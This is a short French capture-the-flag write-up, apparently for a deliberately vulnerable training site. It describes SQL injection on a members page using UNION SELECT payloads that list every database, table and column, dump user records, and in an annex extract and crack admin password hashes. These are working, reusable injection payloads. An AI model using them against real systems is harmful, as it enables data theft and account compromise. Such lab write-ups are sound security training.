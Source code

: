 # 08 SQL Injection

- On est allés sur la page members
- On a testé de mettre un peu n'importe quoi dans le champ
- On se retrouve avec une erreur de db "Unknown column 'asfasfsa' in 'where clause'"
- On esssaie alors de faire des injections
- On utilise ce pattern `1 Union ...` pour récuperer plus d'infos
- A l'aide de cette commande `1 UNION SELECT CONCAT(0x7c,table_schema,0x7c,table_name,0x7c), column_name FROM information_schema.columns`
on récupère l'intégralité des bases de données, tables et colonnes
- On remarque alors que la table `Member_Sql_Injection` contient plus de champs que ce qui est affiché lors d'une requete normale
- On recupere alors tous les champs de tous les users avec cette requete `1 UNION SELECT CONCAT(user_id, 0x0a, first_name, 0x0a, last_name, 0x0a, town, 0x0a, country, 0x0a, planet, 0x0a, Commentaire, 0x0a, countersign), null FROM Member_Sql_Injection.users`
- On constate ces valeurs
"
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
5ff9d0165b4f92b14994e5c685cdce28
"
- On passe le mdp dans un detecteur de hash puis dehasheur md5 -> FortyTwo
- On suit le reste des consignes
- Et hop flag


## Annexe

Lors de notre aventure, nous avons constaté une db du nom de `Member_Brute_Force`
Par curiosité on a donc fait la requete suivante dessus

```
1 UNION SELECT CONCAT(id, 0x0a, username, 0x0a, password), null FROM Member_Brute_Force.db_default`
```

On a déhashé les mots de passe, ce qui donne le mdp `shadow` pour l'admin et root
Ça ne va pas nos empecher de faire ça "comme il faut", par le bruteforce quoi.

1 UNION SELECT CONCAT(id, 0x0a, url, 0x0a, title, 0x0a, comment), null FROM Member_images.list_images
